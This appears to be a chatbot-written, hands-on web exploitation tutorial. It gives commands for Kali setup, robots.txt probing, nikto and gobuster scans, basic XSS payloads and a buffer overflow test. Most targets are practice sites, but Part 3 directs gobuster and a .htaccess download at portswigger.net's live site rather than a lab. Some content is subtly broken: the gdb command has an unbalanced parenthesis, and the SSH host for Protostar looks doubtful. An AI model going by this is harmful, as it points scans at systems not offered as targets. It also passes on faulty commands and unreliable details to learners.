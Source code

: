 # Step-by-Step Hands-On Web Exploitation Tutorial

## **Part 1: Setting Up Your Environment**

### **1. Get Kali Linux**

- Download from [https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)
- Run in a virtual machine using VirtualBox or VMware.

### **2. Install Necessary Tools**

Run the following in Kali's terminal:

```bash
sudo apt update && sudo apt install gobuster sqlmap nikto xsstrike
```

---

## **Part 2: robots.txt Exploitation**

### **Objective:** Find hidden directories

### **Commands:**

#### **1. On a Live Website**

- **Target:** [Google Gruyere](https://google-gruyere.appspot.com)
- Run:
  ```bash
  curl -s https://google-gruyere.appspot.com/robots.txt
  ```
- Look for disallowed directories like `/admin/` or `/backup/`.
- Try accessing them: `https://google-gruyere.appspot.com/admin/`

#### **2. Using an Automated Scanner**

```bash
nikto -h https://google-gruyere.appspot.com
```

---

## **Part 3: .htaccess File Exposure**

### **Objective:** Find hidden files

### **Commands:**

#### **1. On a Live Website**

- **Target:** [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- Run:
  ```bash
  gobuster dir -u https://portswigger.net/web-security -w /usr/share/wordlists/dirb/common.txt -x txt,php,html
  ```
- If `.htaccess` is found, access it:
  ```bash
  wget https://portswigger.net/web-security/.htaccess
  cat .htaccess
  ```

---

## **Part 4: Cross-Site Scripting (XSS)**

### **Objective:** Inject JavaScript payloads

### **Commands:**

#### **1. Manual Injection**

- **Target:** [XSS Game by Google](https://xss-game.appspot.com/)
- Enter in input fields:
  ```html
  <script>alert('XSS')</script>
  ```
- Run in terminal:
  ```bash
  curl -X GET "https://xss-game.appspot.com/level1?param=<script>alert('XSS')</script>"
  ```

#### **2. Automated Scanning**

```bash
python3 xsstrike.py -u https://xss-game.appspot.com/level1
```

---

## **Part 5: Buffer Overflow Exploitation**

### **Objective:** Crash a program and inject shellcode

### **Practice On:** [Exploit Education - Protostar](https://exploit.education/protostar/)

#### **1. SSH into the Target**

```bash
ssh student@protostar.exploit.education
```

#### **2. Test Buffer Overflow**

```bash
python3 -c "print('A' * 100)" | ./vulnerable_binary
```

#### **3. Debug with GDB**

```bash
gdb ./vulnerable_binary
break main
run $(python3 -c "print('A' * 100")
info registers
```

---

## **Next Steps**

Would you like more advanced tutorials on **Burp Suite, SQL Injection, or privilege escalation?** Let me know! 😊

